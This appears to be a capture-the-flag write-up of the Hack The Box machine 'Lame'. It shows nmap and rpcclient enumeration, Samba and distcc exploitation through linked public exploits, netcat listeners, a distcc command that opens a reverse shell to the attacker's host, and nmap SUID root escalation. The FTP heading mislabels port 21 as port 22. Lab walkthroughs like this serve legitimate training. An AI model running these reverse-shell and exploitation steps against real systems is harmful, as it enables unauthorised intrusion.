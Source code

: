 #CVE-2004-2687 #CVE-2007-2447 #CVE-2011-2523 #vsFTPd #smbd #nmap

----
#### Reconnaissance

`nmap -sC -sV -p- -Pn 10.10.10.3`

```
Nmap scan report for 10.10.10.3
Host is up (0.079s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.42
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 600fcfe1c05f6a74d69024fac4d56ccd (DSA)
|_  2048 5656240f211ddea72bae61b1243de8f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2022-11-07T23:38:51-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 2h26m42s, deviation: 3h32m10s, median: -3m19s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 199.67 seconds
```

#### Enumeration

###### Port 22 - File Transfer Protocol
- Anonymous login using:
	- ftp : ftp
	- anonymous : anonymous
	- anonymous :
- vsFTPd 2.3.4
	- CVE-2011-2523: Backdoor command execution vulnerability
	- opens shell on port 6200/tcp
	- Exploit was not successful

##### Port 139, 445 - Server Message Block
- Null Session
	 `rpcclient 10.10.10.3 -U '' -N`

```
user:[games] rid:[0x3f2]
user:[nobody] rid:[0x1f5]
user:[bind] rid:[0x4ba]
user:[proxy] rid:[0x402]
user:[syslog] rid:[0x4b4]
user:[user] rid:[0xbba]
user:[www-data] rid:[0x42a]
user:[root] rid:[0x3e8]
user:[news] rid:[0x3fa]
user:[postgres] rid:[0x4c0]
user:[bin] rid:[0x3ec]
user:[mail] rid:[0x3f8]
user:[distccd] rid:[0x4c6]
user:[proftpd] rid:[0x4ca]
user:[dhcp] rid:[0x4b2]
user:[daemon] rid:[0x3ea]
user:[sshd] rid:[0x4b8]
user:[man] rid:[0x3f4]
user:[lp] rid:[0x3f6]
user:[mysql] rid:[0x4c2]
user:[gnats] rid:[0x43a]
user:[libuuid] rid:[0x4b0]
user:[backup] rid:[0x42c]
user:[msfadmin] rid:[0xbb8]
user:[telnetd] rid:[0x4c8]
user:[sys] rid:[0x3ee]
user:[klog] rid:[0x4b6]
user:[postfix] rid:[0x4bc]
user:[service] rid:[0xbbc]
user:[list] rid:[0x434]
user:[irc] rid:[0x436]
user:[ftp] rid:[0x4be]
user:[tomcat55] rid:[0x4c4]
user:[sync] rid:[0x3f0]
user:[uucp] rid:[0x3fc]
rpcclient $> enumdomgroups
rpcclient $> enumdomgroup
command not found: enumdomgroup
rpcclient $> enumdomusers
user:[games] rid:[0x3f2]
user:[nobody] rid:[0x1f5]
user:[bind] rid:[0x4ba]
user:[proxy] rid:[0x402]
user:[syslog] rid:[0x4b4]
user:[user] rid:[0xbba]
user:[www-data] rid:[0x42a]
user:[root] rid:[0x3e8]
user:[news] rid:[0x3fa]
user:[postgres] rid:[0x4c0]
user:[bin] rid:[0x3ec]
user:[mail] rid:[0x3f8]
user:[distccd] rid:[0x4c6]
user:[proftpd] rid:[0x4ca]
user:[dhcp] rid:[0x4b2]
user:[daemon] rid:[0x3ea]
user:[sshd] rid:[0x4b8]
user:[man] rid:[0x3f4]
user:[lp] rid:[0x3f6]
user:[mysql] rid:[0x4c2]
user:[gnats] rid:[0x43a]
user:[libuuid] rid:[0x4b0]
user:[backup] rid:[0x42c]
user:[msfadmin] rid:[0xbb8]
user:[telnetd] rid:[0x4c8]
user:[sys] rid:[0x3ee]
user:[klog] rid:[0x4b6]
user:[postfix] rid:[0x4bc]
user:[service] rid:[0xbbc]
user:[list] rid:[0x434]
user:[irc] rid:[0x436]
user:[ftp] rid:[0x4be]
user:[tomcat55] rid:[0x4c4]
user:[sync] rid:[0x3f0]
user:[uucp] rid:[0x3fc]
```

- Samba smbd 3.0.20
	- CVE-2007-2447 - Arbitrary Code Execution
		- [Exploit Github Repository](https://github.com/amriunix/CVE-2007-2447)

##### Port 3632 - DistCC Daemon
- Distcc is designed to speed up compilation by taking advantage of unused processing power on other computers. A machine with distcc installed can send code to be compiled across the network to a computer which has the distccd daemon and a compatible compiler installed.
- CVE-2004-2687
	- [Exploit Github Repository](https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855)

#### Exploitation

##### Exploitation #1: Samba smbd 3.0.20
`kali@kali:/$ nc -lvnp 3333`

`kali@kali:/$ ./usermap_script.py 10.10.10.3 139 10.10.14.13 3333`

<img src="https://github.com/ChrisThePhotographer/test/blob/main/assets/Screen Shot 2022-12-19 at 10.36.35 PM.png" width=50% height=50%>
![[Screen Shot 2022-12-19 at 10.37.01 PM.png|500]]

##### Exploitation #2: CVE-2004-2687

`kali@kali:/$ nc -lvnp 1337`

`kali@kali:/$ ./disccd_exploit.py -t <victim ip> -p 3632 -c "nc <local ip> 1337 -e /bin/sh"`

![[Screen Shot 2022-12-19 at 10.50.26 PM.png|500]]
![[Screen Shot 2022-12-19 at 10.51.21 PM.png|500]]

##### Privilege Escalation w/ Exploitation #2

Important SUID files:
`-rwsr-xr-x 1 root root 780676 Apr  8  2008 /usr/bin/nmap`
- nmap version 4.53
- The interactive mode, available on versions 2.02 to 5.21, can be used to execute shell commands with root privileges due to owner being root
- [GTFOBins]( https://gtfobins.github.io/gtfobins/nmap/)

![[Screen Shot 2022-12-19 at 11.20.34 PM.png|480]]




